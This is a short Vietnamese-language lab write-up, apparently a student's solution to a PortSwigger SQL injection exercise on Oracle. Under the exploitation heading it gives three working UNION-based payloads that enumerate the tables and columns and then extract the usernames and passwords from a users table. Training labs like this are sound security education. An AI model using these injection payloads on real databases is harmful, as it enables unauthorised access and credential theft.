




# Lab: SQL injection attack, listing the database contents on Oracle

**Lab URL:** [PortSwigger Lab](https://portswigger.net/web-security/examining-the-database/lab-listing-database-contents-oracle)

## Mô tả

Bài này thì tương tự bài non-Oracle ở trên. Do đó, mình sẽ làm tương tự.

## Khai thác

`Payload: "Gifts' UNION SELECT null,table_name FROM all_tables--"`

`Payload: "Gifts' UNION SELECT null,column_name FROM all_tab_columns WHERE table_name='USERS_TXZJUA'--"`

`Payload: "Gifts' UNION SELECT USERNAME_TPLFRU,PASSWORD_DHDRXQ FROM USERS_TXZJUA--"`

## Kết quả

Và solve rồi nè:

